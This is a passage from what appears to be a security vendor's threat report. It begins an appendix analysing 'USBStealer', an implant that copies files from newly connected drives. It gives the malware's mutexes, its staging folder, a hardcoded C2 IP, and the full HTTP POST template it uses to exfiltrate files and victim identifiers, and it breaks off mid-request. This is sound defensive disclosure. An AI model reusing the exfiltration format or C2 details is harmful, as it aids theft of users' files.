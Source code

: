 WildFire identifies the malware described in this report as malicious.
Traps prevents execution of the malware described in this report.
The C2 domains used by this group are blocked through Threat Prevention.

Special thanks go out to Tom Lancaster for both his assistance in this investigation and for his charming good looks.
Appendix A: Custom Implant Analyses
USBStealer: MSO5678.usb / OfficeUpdate.dll
This file is a USB file stealer which can be also guessed by its internal name "USBgrabber.dll". However, the implementation is sloppy which makes it a file stealer for any newly connected logical volume on a system. This is because the malware monitors the computer for messages WM_COMMAND and WM_DEVICECHANGE, but not verifying if a USB drive was connected.
The malware creates two mutexes "__Wsnusb73__" and "__Wsnusbtt73__". Then, it creates the following folder in the temp path of the local user:
"C:\Users\<Username>\AppData\Local\Temp\reports"
This folder is used as a temporary location to copy all files from a newly connected logical drive to and upload them to the C2 server. The files are transferred to the hardcoded C2 server "195.62.52.93" one by one via HTTP POST method. The following request is used which also includes information about the victim, the file to be transferred as well as the source drive:





POST /post.php HTTP/1.1
Content-Type: multipart/form-data; boundary=----qwerty
Host: 195.62.52.93
Content-Length: ...
Cache-Control: no-cache

------qwerty
Content-Disposition: form-data; name="filename"

\\<filename>
------qwerty
Content-Disposition: form-data; name="filedate"

<month>/<day>/<year> <hour>:<seconds>
------qwerty
Content-Disposition: form-data; name="compname"

<ComputerName>||<Username>||<UserHWGUID>||<C_VolumeSerialNumber>
------qwerty
Content-Disposition: form-data; name="serial"

<SerialNumberOfDriveToStealFrom>
------qwerty
Content-Disposition: form-data; name="w"

"?"
------qwerty
Content-Disposition: form-data; name="filesize"

<FileSize>
------qwerty
Content-Disposition: form-data; name="file"; filename="<AbsoluteFilePathInTemporaryLocation>"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

